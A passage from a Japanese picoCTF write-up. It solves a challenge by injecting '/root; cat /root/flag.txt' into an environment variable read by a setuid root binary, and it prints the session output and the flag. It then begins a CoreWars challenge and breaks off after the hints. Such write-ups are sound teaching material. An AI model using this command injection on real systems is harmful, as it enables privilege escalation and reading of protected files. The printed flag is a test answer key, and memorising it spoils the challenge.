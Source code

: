 <br />

### Solution

ホームディレクトリに、`bin` という名前のelfファイルが置かれています。

<pre>
ctf-player@pico-chall$ ls -al
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Mar 21 11:24 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
drwx------ 2 ctf-player ctf-player    34 Mar 21 11:24 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin

ctf-player@pico-chall$ file bin
bin: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=202cb71538089bb22aa22d5d3f8f77a8a94a826f, for GNU/Linux 3.2.0, not stripped
</pre>

<br />

実行してみます。

<pre>
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set

ctf-player@pico-chall$ export SECRET_DIR="/root"

ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt

</pre>

<br />

`strings` コマンドを実行してみると `system()`関数を呼んでいたりするのがわかるのと、Hint2も加味すると、Command Injectionっぽいのが何となくわかりますね。

<br />

<pre>
ctf-player@pico-chall$ export SECRET_DIR="/root; cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root; cat /root/flag.txt as root:
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_3f693329}
</pre>

<br />

Flag: `picoCTF{Power_t0_man!pul4t3_3nv_3f693329}`


<br /><br />
<br /><br />
## [Reverse Engineering]: Ready Gladiator 0 (100 points)
- - -
### Challenge
> Can you make a CoreWars warrior that always loses, no ties?
Your opponent is the Imp. The source is available here. If you wanted to pit the Imp against himself, you could download the Imp and connect to the CoreWars server like this:
<br /><br />
Hint1: CoreWars is a well-established game with a lot of docs and strategy
<br />
Hint2: Experiment with input to the CoreWars handler or create a self-defeating bot
